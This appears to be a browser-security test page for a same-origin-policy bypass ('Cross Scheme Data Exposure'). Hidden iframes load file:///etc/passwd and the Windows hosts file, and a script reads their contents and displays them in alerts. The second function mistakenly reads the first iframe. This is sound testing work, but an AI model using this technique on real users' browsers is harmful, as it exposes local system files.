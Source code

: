 ```yaml
---
layout: default
title: SOP Bypass - Testcase 14
permalink: /sop/new/14
---
```


<iframe src="https://web.archive.org/web/20180831120311if_/file:///etc/passwd" name="myIframe" width="0px" height="0px" data-ruffle-polyfilled=""></iframe>
<iframe src="https://web.archive.org/web/20180831120311if_/file:///C:/Windows/System32/drivers/etc/hosts" name="myIframe2" width="0px" height="0px" data-ruffle-polyfilled=""></iframe>

<script>
function myfunc() {
    var myIframe = frames.myIframe;
    var fenster = window.frames[0];
    var message = fenster.document.getElementsByTagName("pre")[0].childNodes[0].nodeValue;
    var messages = message;
    messages = messages.replace(/#/g, "");
    alert(messages);
    alert(window.frames['myIframe'].document.getElementsByTagName('pre')[0].innerHTML);
}
function myfunc2() {
    var myIframe = frames.myIframe2;
    var fenster = window.frames[0];
    var message = fenster.document.getElementsByTagName("pre")[0].childNodes[0].nodeValue;
    var messages = message;
    messages = messages.replace(/#/g, "");
    alert(messages);
    alert(window.frames['myIframe'].document.getElementsByTagName('pre')[0].innerHTML);
}
</script>

Testcase for Cross Scheme Data Exposure

<input type="button" id="btn_test" class="test" value="Run Test Case 1 (Linux OS)" onclick="myfunc()">
<input type="button" id="btn_test" class="test" value="Run Test Case 2 (Windows OS)" onclick="myfunc2()">

**Note:**
If page displays an alert box displaying the content of /etc/passwd file, it results in a Cross Scheme Data Exposure.
